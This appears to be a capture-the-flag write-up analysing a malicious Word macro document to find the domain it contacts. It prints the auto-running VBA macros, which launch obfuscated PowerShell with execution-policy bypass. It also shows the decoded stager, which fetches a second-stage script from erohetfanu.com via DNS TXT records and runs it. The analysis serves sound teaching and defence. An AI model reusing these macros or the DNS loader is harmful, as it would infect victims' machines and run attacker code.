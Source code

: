 
## Identify the Domain
> Using the Word docm file, identify the domain name that the malware communicates with.

0. I'm using LibreOffice, but you can also use `docker run --rm -it --name oletools -v $(pwd):/srv:ro jorgeandrada/oletools:latest sh` instead. Just don't run the macros. Pleae
1. Opened the document with LibreOffice, macros off. Used `Tools > Macros > Edit macros` to edit them, found these:

```VBScript
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Private Sub Document_Open()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

```

Deobfuscated, it would look like:

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object;

payload = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

## iex(
  a IO.StreamReader(
    (a IO.Compression.DeflateStream(
      [IO.MemoryStream][Convert]::FromBase64String(payload),
      [IO.Compression.CompressionMode]::Decompress
    )),
    [Text.Encoding]::ASCII)
)
## .ReadToEnd()"" "

```
Used a (small PHP script)[../scripts/decode_macro_payload.php] to decode and deflate, and obtained the following code (rewrote to be easier to read):
```VBScript
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o};
$f = "77616E6E61636F6F6B69652E6D696E2E707331";
$h = "";

upperLimit = ([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)
foreach ($i in 0..upperLimit)  {
  $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
};

decoded = $(H2A $h | Out-string)

# iex(decoded)


```

The answer to the challenge is: `erohetfanu.com`

Bonus track, what does `77616E6E61636F6F6B69652E6D696E2E707331` mean?: `wannacookie.min.ps1` :)

